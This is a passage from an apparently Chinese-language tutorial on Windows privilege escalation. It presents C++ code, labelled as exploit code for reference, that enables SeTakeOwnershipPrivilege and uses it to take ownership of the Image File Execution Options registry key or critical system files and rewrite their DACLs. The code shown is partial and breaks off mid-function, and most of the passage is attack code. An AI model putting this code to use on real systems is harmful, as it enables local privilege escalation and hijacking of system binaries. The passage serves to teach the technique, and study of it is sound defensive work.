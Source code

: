 ```c++
    return status;
}
else
{
    wprintf(L"[*] Now that we are the owner, and modify the object's DACL.\n");
    status = TRUE;
}
```

下面给出可供参考的利用代码，首先通过 `AdjustTokenPrivileges()` 函数为当前进程开启 SeTakeOwnershipPrivilege 特权，然后通过上述过程滥用该特权。如果执行时 `-e` 参数为 “Registry”，则会接管 `Image File Execution Options` 注册表对象。如果 `-e` 参数为 “File”，则可以接管关键系统文件。

- SeTakeOwnershipPrivilege.cpp

```c++
#include <Windows.h>
#include <iostream>
#include <stdio.h>
#include <sddl.h>
#include <aclapi.h>

PTOKEN_USER GetTokenUserInformation(HANDLE hToken)
{
    DWORD dwReturnLength = 0;
    PTOKEN_USER pTokenUser = (PTOKEN_USER)malloc(sizeof(TOKEN_USER));

    // Get token information, set tokenInfo.
    if (GetTokenInformation(hToken, TokenUser, NULL, 0, &dwReturnLength) || GetLastError() == ERROR_INSUFFICIENT_BUFFER)
    {
        pTokenUser = (PTOKEN_USER)realloc(pTokenUser, dwReturnLength *= 2);
        if (!GetTokenInformation(hToken, TokenUser, pTokenUser, dwReturnLength, &dwReturnLength))
        {
            wprintf(L"[-] Failed to get token user information.\n");
            CloseHandle(hToken);
            free(pTokenUser);
            return NULL;
        }
    }
    return pTokenUser;
}

BOOL ExploitSeTakeOwnershipPrivilege(HANDLE hToken, SE_OBJECT_TYPE ObjectType, LPWSTR pObjectName, DWORD grfAccessPermissions)
{
    BOOL status = FALSE;
    PACL pOldDACL = NULL;
    PACL pNewDACL = NULL;
    EXPLICIT_ACCESS ea[1];
    PTOKEN_USER pTokenUser;
    LPWSTR stringSid;
    DWORD dwRes;

    pTokenUser = GetTokenUserInformation(hToken);

    dwRes = GetNamedSecurityInfoW(
        (LPCWSTR)pObjectName, 
        ObjectType,
        DACL_SECURITY_INFORMATION,
        NULL,
        NULL, 
        &pOldDACL, 
        NULL, 
        NULL
```